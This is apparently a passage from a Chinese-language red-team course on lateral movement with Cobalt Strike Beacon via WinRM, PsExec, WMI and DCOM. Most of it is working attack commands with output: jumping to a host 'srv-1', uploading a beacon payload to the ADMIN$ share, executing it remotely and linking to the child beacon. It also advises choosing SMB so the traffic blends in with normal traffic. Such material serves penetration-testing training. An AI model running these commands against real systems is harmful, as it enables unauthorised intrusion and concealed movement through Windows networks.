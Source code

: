 
通过列举C盘目录验证是否横向成功
```
ls \\srv-1\c$
```


## PowerShell Remoting

查询靶机架构
```
beacon> remote-exec winrm srv-1 (Get-WmiObject Win32_OperatingSystem).OSArchitecture
64-bit
```

```winrm```32位横向使用


```winrm64```64位横向使用



推荐使用 SMB 协议横向。SMB 协议在 Windows 环境中广泛使用，因此横向的时候可以和smb本身的流量融合在一起。
```
beacon> jump winrm64 srv-1 smb
[+] established link to child beacon: 10.10.17.25
```


WinRM返回的是一个高完整性的beacon，可以和远程计算机建立交互式的shell


## PsExec

psexec和psexec64是唯一执行```jump```命令后可以自动执行进程迁移的方法（默认为rundll32.exe），这样做是为了自动从磁盘中删除上传的服务二进制文件。

```
beacon> jump psexec64 srv-1 smb
Started service dd80980 on srv-1
[+] established link to child beacon: 10.10.17.25
```


## Windows Management Instrumentation (WMI)

WMI 不是jump命令的一部分，但它是remote-exec命令的一部分

```
beacon> cd \\srv-1\ADMIN$
beacon> upload C:\Payloads\beacon-smb.exe
beacon> remote-exec wmi srv-1 C:\Windows\beacon-smb.exe
Started process 536 on srv-1
```

上面命令执行完以后，该进程已经在srv-1运行，需要用```link```命令连接

```
beacon> link srv-1
[+] established link to child beacon: 10.10.17.25
```

## DCOM

Beacon 没有通过Distributed Component Object Model (DCOM) 进行交互的内置功能，因此必须使用诸如[Invoke-DCOM](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1)之类的外部工具。我们将在后面的模块中看到如何将其集成到jump命令中

```